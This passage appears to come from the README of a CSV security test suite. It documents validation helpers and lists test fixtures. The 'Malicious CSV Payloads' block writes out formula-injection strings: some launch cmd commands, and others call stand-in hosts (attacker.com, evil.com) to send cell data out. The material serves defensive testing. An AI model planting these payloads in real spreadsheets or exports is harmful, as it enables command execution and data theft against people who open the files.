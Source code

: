 ### FileValidationHelper
Provides file validation and analysis:
```python
from tests.security.security_test_utils import FileValidationHelper

validator = FileValidationHelper()
injections = validator.detect_csv_injection(csv_content)
sanitized = validator.sanitize_csv_content(malicious_csv)
```

### SecurityTestAssertions
Custom security assertions for testing:
```python
from tests.security.security_test_utils import SecurityTestAssertions

assertions = SecurityTestAssertions()
assertions.assert_no_code_execution_indicators(response_text)
assertions.assert_no_sensitive_info_disclosure(response_text)
```

## 📋 Test Data and Fixtures

### Malicious CSV Payloads
The testing suite includes comprehensive malicious payloads:

```python
# Formula injection examples
'=1+1+cmd|"/c calc"!A0'
'=HYPERLINK("http://attacker.com/"&A1)'
'@SUM(1+1)*cmd|"/c dir"!A0'

# Advanced attacks
'=INDIRECT("R1C1",FALSE)'
'=WEBSERVICE("http://evil.com/api")'
'=Auto_Open()'
```

### Executable File Signatures
Tests include detection of various executable types:
- Windows PE files (`\x4d\x5a\x90\x00`)
- Linux ELF files (`\x7f\x45\x4c\x46`)  
- Java class files (`\xca\xfe\xba\xbe`)
- ZIP archives (`\x50\x4b\x03\x04`)

### Edge Case Data
- Unicode-heavy content
- Extremely long fields
- Special characters and encodings
- Mixed valid/malicious data

## 🛠️ Configuration

